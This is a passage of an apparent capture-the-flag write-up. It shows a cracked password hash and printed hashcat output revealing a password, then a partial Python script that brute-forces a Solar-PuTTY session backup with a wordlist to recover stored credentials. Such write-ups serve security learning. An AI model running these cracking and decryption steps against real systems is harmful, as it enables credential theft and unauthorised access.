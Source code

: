 ```python
    base64_hash = base64.b64encode(bytes.fromhex(sha_hash)).decode()
    print (f'[*] - Reformated: sha256:{method[2]}:{base64_salt}:{base64_hash}')
```
{: .nolineno }
Crack this hash with hashcat tool: 
```bash
$ hashcat -m 10900 -a 0  passwort.txt rockyou.txt

...
Dictionary cache built:
* Filename..: rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 0 secs

sha256:600000:WW5SZ2puaW0=:yVQajGrUC8Bkl5vERgJQQf+smvL3YnJpcdiignLFUO0=:estrella
...
```
{: .nolineno }
I used [SolarPuttyDecrypt.py](https://gist.github.com/xHacka/052e4b09d893398b04bf8aff5872d0d5) and the sessions-backup.dat file found at the path `/opt/backups/Solar-PuTTY`. 
```python
import base64
import sys
from Crypto.Cipher import DES3
from Crypto.Protocol.KDF import PBKDF2

def decrypt(passphrase, ciphertext):
    data = ''
    try:
        # Decode the base64 encoded ciphertext
        array = base64.b64decode(ciphertext)
        salt = array[:24]
        iv = array[24:32]
        encrypted_data = array[48:]

        # Derive the key using PBKDF2
        key = PBKDF2(passphrase, salt, dkLen=24, count=1000)

        # Create the Triple DES cipher in CBC mode
        cipher = DES3.new(key, DES3.MODE_CBC, iv)

        # Decrypt the data
        decrypted_data = cipher.decrypt(encrypted_data)

        # Remove padding (PKCS7 padding)
        padding_len = decrypted_data[-1]
        decrypted_data = decrypted_data[:-padding_len]

        data = ''.join(chr(c) for c in decrypted_data if chr(c).isascii())

    except Exception as e:
        print(f'Error: {e}')

    return data

if len(sys.argv) < 3:
    print(f'Usage: {sys.argv[0]} putty_session.dat wordlist.txt')
    exit(1)

with open(sys.argv[1]) as f:
    cipher = f.read()

```